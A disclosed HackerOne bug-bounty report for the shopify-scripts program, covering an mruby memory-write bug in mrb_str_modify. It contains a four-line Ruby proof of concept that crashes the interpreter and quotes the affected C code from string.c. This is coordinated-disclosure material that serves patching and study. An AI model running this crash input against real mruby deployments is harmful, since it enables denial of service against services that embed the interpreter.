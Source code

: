 # mrb_str_modify try to write to memory not marked for writing

## Report Details
- **Report ID**: 193077
- **URL**: https://hackerone.com/reports/193077
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-12-21T14:34:40.465Z
- **Disclosed**: 2017-02-06T22:33:47.458Z

## Reporter
- **Username**: marotagem_vrt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
The proof-of-concept below can be used to crash the interpreter (DoS) because forces it to try to write a memory not marked for writing.
```
a = Time.new.zone
a.rstrip!
GC.start
a.next!
```

Code
https://github.com/mruby/mruby/blob/5289b4ba117e66bdef1438ca754c894508a2447b/src/string.c#L668
```
    if (shared->refcnt == 1 && s->as.heap.ptr == shared->ptr) {
      s->as.heap.ptr = shared->ptr;
      s->as.heap.aux.capa = shared->len;
      RSTR_PTR(s)[s->as.heap.len] = '\0';
      mrb_free(mrb, shared);
    }
```   

## Attachments
No attachments

